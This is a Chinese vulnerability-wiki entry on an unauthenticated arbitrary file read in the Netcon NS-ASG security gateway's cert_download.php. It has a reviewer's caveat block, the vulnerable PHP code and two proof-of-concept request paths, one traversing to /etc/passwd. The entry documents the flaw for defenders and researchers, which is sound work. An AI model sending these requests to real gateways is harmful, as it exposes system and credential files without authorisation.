

# 网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：网康NS-ASG
- 本文讨论：cert_download.php certfile
- 版本、权限与配置前提：旧PHP请求变量绑定，版本不明
- 资料类型：文件读取重复稿；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 与641同源码/两请求/同图名，仅资源目录改名
- 无变量来源和具体固件，不能跳过环境前提

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 图片是否同blob可参考父跨类核验，变量绑定与版本待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
网康 NS-ASG安全网关
```

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?>
```

此文件没有对身份进行校验即可下载任意文件

```plain
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```


```plain
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
